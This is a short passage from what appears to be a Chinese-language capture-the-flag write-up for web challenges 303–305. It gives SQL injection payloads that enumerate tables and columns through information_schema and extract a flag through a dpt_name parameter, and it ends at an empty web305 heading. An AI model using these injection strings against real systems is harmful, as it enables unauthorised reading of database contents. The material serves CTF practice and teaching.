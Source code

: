 ```php
?>
```

### 答案

```
payload:
查表名
dpt_name=1',sds_address =(select group_concat(table_name) from information_schema.tables where table_schema=database())%23
查列名
dpt_name=1',sds_address =(select group_concat(column_name) from information_schema.columns where table_name='sds_fl9g')%23
查数据
dpt_name=1',sds_address =(select flag from sds_fl9g)%23
```

注入后执行的 sql 语句为

<img src=".\图片\Snipaste_2023-06-01_12-26-37.png" alt="Snipaste_2023-06-01_12-26-37" style="zoom:80%;" />

## web304

没找到waf 就改了下表名 sds_flaag
还是上面的payload

## web305
